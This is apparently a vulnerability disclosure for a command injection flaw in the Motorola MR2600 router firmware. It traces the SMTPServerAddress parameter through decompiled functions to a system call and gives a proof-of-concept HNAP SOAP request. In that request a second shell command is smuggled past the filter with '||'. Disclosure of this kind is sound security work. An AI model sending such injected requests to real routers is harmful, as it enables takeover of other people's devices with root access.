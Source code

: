 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522104100082](img/image-20220522104100082.png)

By SaveSysEmailParams/SMTPServerAddress parameters for content delivery to v8

![image-20220522104122337](img/image-20220522104122337.png)

Check_command_inject_ch function after the filter command injection, we can use '| |' symbol to bypass the interrupt the first command, you can execute the second command

Then use the nvram_SAFE_set function to set the value of SysLogMail_SMTPServerAddress to V8

![image-20220522104142346](img/image-20220522104142346.png)

In the rc file, the program uses the nvram_safe_get function to get the value of the SysLogMail_SMTPServerAddress parameter and passes it to V11. After that, the program uses the sprintf function to format the contents of V11 into V33. Command injection vulnerability exists when the content in V33 is executed through twsystem function

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SysLogMail_SMTPServer xmlns="http://purenetworks.com/HNAP1/">
	<SMTPServerAddress> % || ls > /tmp/456 || echo 1</SMTPServerAddress>
</SysLogMail_SMTPServer>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](../../../d-link/dir-816/2/img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)